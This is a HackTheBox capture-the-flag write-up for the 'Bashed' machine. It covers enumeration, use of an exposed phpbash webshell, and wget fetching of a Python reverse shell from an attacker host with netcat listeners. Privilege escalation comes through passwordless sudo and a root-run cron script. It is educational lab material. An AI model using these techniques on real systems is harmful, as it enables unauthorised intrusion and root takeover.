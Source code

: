 ```yaml
---
layout: single
title:  "HTB - Bashed Writeup - 10.10.10.68"
date:   2020-06-02 14:45:23 +0100
categories: hackthebox
---
```

![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/6p348hw5z1adbqvs7fmt.png)

# HackTheBox - Bashed - 10.10.10.68 - Writeup

This machine is rated easy dificulty and requires knowledge of the linux `sudo and sudo -l` commands. The initial phase only requires some simple enumeration of an apache webpage which turns out to be running a webshell.

## 1. Recon

`nmap -sC -sV -oA nmap/bashed 10.10.10.68`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/bglot9fhkhbng2gwmt2b.png)
We can see that the only open port on the machine is Apache httpd

`http://10.10.10.68`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/cwowso1apsbjlsu6y0bd.png)
There is an article on the page stating that some sort of php file called `phpbash` was developed on the machine, we can try running `gobuster` to enumerate possible directories

`gobuster dir -u http://10.10.10.68 -w /usr/../.../..2.3-medium.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/d56inr2lbco7247h8d5a.png)
We see that we got a hit for a `\dev` directory and seeing as the `phpbash` was developed on the machine there is a good chance it is in that directory

### Bingo! A webshell
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/8i2z7ksj1zs8rqydc59m.png)
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/iehnalebqmeagthoqbxn.png)


## 2. Exploitation
To exploit this machine is would be nicer to have an actual shell so I created a simple python reverse shell and started a netcat listener aswell as a python http server to get the file to the remote machine.
`cat rev.py`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/6y9pxw5ho3n1zzyo7mx3.png)
`which python`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/kxz7bosp99181t00u1xx.png)
`nc -lvnp 9004`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/pqrt3vzyqdd6q16cmyc6.png)
`wget 10.10.14.17/rev.py`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/stnh19xuhvs01sbzlszu.png)

### Reverse Shell
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/anz2m6esuqczb1yjjqsj.png)

Now that we have a proper shell we can do some enumeration and also read the user flag
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/wxcuu329pkw32deohsvs.png)
We can also see that there is a user `scriptmanager` who we could escalate privelages to
`sudo -l` - will tell use what commands we can run as other users
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/h56pqcy4uycdk90hgh73.png)
As we can run every command -  `All` as `scriptmanger` with no password, we can just spawn a shell as them using the bash command

`sudo -u scriptmanager /bin/bash` - will get us a shell as scriptmanger
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/v8dtetz5zu061uieplyt.png)

## 3. Privelage Escalation from scriptmanger to root

After some manual enumeration of the system there appears to be an unusual directory, `/scripts` which contains `test.py` and `test.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/rpcza4tghrvseioryd14.png)
This python script seems to be run by some process, probably a cron job, we could try to exploit this by uploading a malicious python reverse shell to get a shell as root.
`cp rev.py revroot.py` `cat revroot.py`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/a7uymwadgmb0sdo96rlj.png)
Notice how our `revroot.py` file has a different port then out inital `rev.py` shell, this is so it does not interfere with our existing reverse shell.

We will upload `revroot.py` to the box using the same python http server
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/2y4ixykp1b5vsc2330qf.png)
`wget 10.10.14.17\revroot.py`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/gxu3hs1na6sbboxgys2t.png)

Now all we have to do is open a new netcat listener on port 1337 and wait
`nc -lvnp 1337`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/bgasnnw8iksrgizmkb1x.png)

## Rooted! 

If you enjoyed my writeup or found it useful consider checking out my github or my hackthebox profile.

<img src="http://www.hackthebox.eu/badge/image/210952" alt="Hack The Box">
<a href="https://dev.to/71xn">
  <img src="https://d2fltix0v2e0sb.cloudfront.net/dev-badge.svg" alt="Finn Lestrange's DEV Profile" height="30" width="30">
</a>

